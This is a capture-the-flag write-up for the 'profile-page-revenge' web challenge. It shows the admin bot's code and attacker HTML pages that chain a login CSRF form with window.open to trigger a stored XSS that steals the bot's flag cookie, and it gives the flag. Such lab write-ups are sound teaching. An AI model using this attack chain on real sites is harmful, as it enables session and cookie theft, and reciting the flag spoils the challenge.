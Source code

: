 The admin bot only sets a cookie, it does not log into any "admin" account:

{% ccb lang:js gutter1:24-37 caption:adminbot_test.js highlight:5 %}
        let page = await browser.newPage();
        await page.goto(SITE, { timeout: 3000, waitUntil: 'domcontentloaded' });

        await page.evaluate((flag) => {
            document.cookie = "flag=" + flag + "; secure; path=/";
        }, FLAG);

        await page.close();
        page = await browser.newPage();

        await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' })
        await sleep(5000);

        await browser.close();
{% endccb %}

So we need to serve a website that will login to our account:

{% ccb lang:html caption:login.html gutter1:1-9 highlight:7 %}
<form action="https://profile-page-revenge.web.osugaming.lol/api/login" method="POST">
    <input name="username" value="hartmannsyg" />
    <input name="password" value="hartmannsyg" />
</form>
  
<script>
    window.open('/xss.html')
    document.forms[0].submit();
</script>
{% endccb %}

{% ccb lang:html caption:xss.html gutter1:1-3 %}
<script>
    setTimeout(()=>{window.open("https://profile-page-revenge.web.osugaming.lol/profile/")},500) 
</script>
{% endccb %}

So, when the admin bot visits `/login.html`:

- new `/xss.html` pops up
- form in `/login.html` submits, setting the cookies so that we are already logged in
- `/xss.html` finally opens to `/profile/`, triggering the xss
- xss script steals the cookies, sets bio to be the cookies

![](.../../static/osu!gamingCTF2024/profile-page-revenge.png)

The flag is `osu{xss_1s_inevitabl3}`
